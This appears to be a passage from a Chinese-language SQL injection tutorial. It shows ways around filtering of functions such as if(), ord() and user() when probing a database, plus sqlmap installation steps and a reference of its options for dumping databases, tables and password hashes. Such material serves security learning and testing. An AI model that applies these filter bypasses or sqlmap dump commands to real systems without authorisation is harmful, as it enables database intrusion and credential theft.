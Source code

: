 #### <font style="color:#000000;">user() datadir ord()被过滤时</font>
```sql
user() --> @@user、datadir–>@@datadir
ord()–>ascii():这两个函数在处理英文时效果一样，但是处理中文等时不一致。
```

#### <font style="color:#000000;">过滤了if函数：</font>
```sql
if函数的判断语句
select if(substr(database(),1,1)='c',1,0);
IFNULL函数
select ifnull(substr(database(),1,1)='c',0);
case when then函数
select case substr(database(),1,1)='c' when 1 then 1 else 0 end;
```

## 七、注入方式及工具 sqlmap 的使用
### sqlmap 工具安装及介绍
#### **安装;**[**安装教程**](https://www.cnblogs.com/hai-long/p/10384752.html)
1、配置好 python

2、到 [github](https://github.com/sqlmapproject/sqlmap) 上下载 源码解压就可以，

#### 使用方法
**参考文章：**

[**sqlmap超详细笔记+思维导图**](https://www.cnblogs.com/bmjoker/p/9326258.html)

[**SQLMAP注入教程-11种常见SQLMAP使用方法详解**](https://www.cnblogs.com/ichunqiu/p/5805108.html)

**各种参数的含义**

```sql
-u  #注入网址
-f  #指纹判别数据库类型 
-b  #获取数据库版本信息 
-p  #指定可测试的参数(?page=1&id=2 -p "page,id") 
-D ""  #指定数据库名 
-T ""  #指定表名 
-C ""  #指定字段 
-s ""  #保存注入过程到一个文件,还可中断，下次恢复在注入(保存：-s "xx.log"　　恢复:-s "xx.log" --resume) 
--level=(1-5) #要执行的测试水平等级，默认为1 
--risk=(0-3)  #测试执行的风险等级，默认为1 
--time-sec=(2,5) #延迟响应，默认为5 
--data #通过POST发送数据 
--columns        #列出字段 
--current-user   #获取当前用户名称 
--current-db     #获取当前数据库名称 
--users          #列数据库所有用户 
--passwords      #数据库用户所有密码 
--privileges     #查看用户权限(--privileges -U root) 
-U               #指定数据库用户 
--dbs            #列出所有数据库 
--tables -D ""   #列出指定数据库中的表 
--columns -T "user" -D "mysql"      #列出mysql数据库中的user表的所有字段 
--dump-all            #列出所有数据库所有表 
--exclude-sysdbs      #只列出用户自己新建的数据库和表 
--dump -T "" -D "" -C ""   #列出指定数据库的表的字段的数据(--dump -T users -D master -C surname) 
--dump -T "" -D "" --start 2 --top 4  # 列出指定数据库的表的2-4字段的数据 
--dbms    #指定数据库(MySQL,Oracle,PostgreSQL,Microsoft SQL Server,Microsoft Access,SQLite,Firebird,Sybase,SAP MaxDB) 
--os      #指定系统(Linux,Windows) 
-v  #详细的等级(0-6) 
```